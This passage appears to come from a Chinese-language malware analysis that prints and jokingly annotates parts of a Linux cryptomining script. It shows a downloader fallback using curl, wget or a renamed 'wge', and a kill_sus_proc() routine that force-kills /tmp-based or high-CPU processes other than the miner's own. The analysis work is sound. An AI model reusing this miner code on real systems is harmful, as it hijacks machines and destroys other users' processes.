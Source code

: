 ```
cur --connect-timeout 10 --retry 100 $3 &gt; $2
fi
#其实检测wget和wge是为了应对不同的权限，
#因为如果没有root权限，还是没法修改wget为wge的
#严谨这方面， 阿矿有点严谨。
elif [ -f "/usr/bin/wget" ]
then
wget --timeout=10 --tries=100 -O $2 $1
if [ $? -ne 0 ]
then
wget --timeout=10 --tries=100 -O $2 $3
fi
elif [ -f "/usr/bin/wge" ]
then
wge --timeout=10 --tries=100 -O $2 $1
if [ $? -eq 0 ]
then
wge --timeout=10 --tries=100 -O $2 $3
fi
fi
```

**kill_sus_proc()**

> 干掉不需要的程序，以提高挖矿效率。

```
#按行读取pid，依次对应是不是自己的程序
#sysguard|update.sh|sysupdate|networkservice
#不是就kill -9强制干掉
#u1s1，有点霸道
ps axf -o "pid"|while read procid
do
ls -l /proc/$procid/exe | grep /tmp
if [ $? -ne 1 ]
then
cat /proc/$procid/cmdline| grep -a -E "sysguard|update.sh|sysupdate|networkservice"
if [ $? -ne 0 ]
then
kill -9 $procid
else
echo "don't kill"
fi
fi
done
#列出cpu占用率超过40%的程序pid，
#然后把不是自己人的统统杀掉
#u1s1，正经程序谁成天占用40%，qaq
ps axf -o "pid %cpu" | awk '{if($2&gt;=40.0) print $1}' | while read procid
do
cat /proc/$procid/cmdline| grep -a -E "sysguard|update.sh|sysupdate|networkservice"
if [ $? -ne 0 ]
then
kill -9 $procid
else
echo "don't kill"
fi
done
```
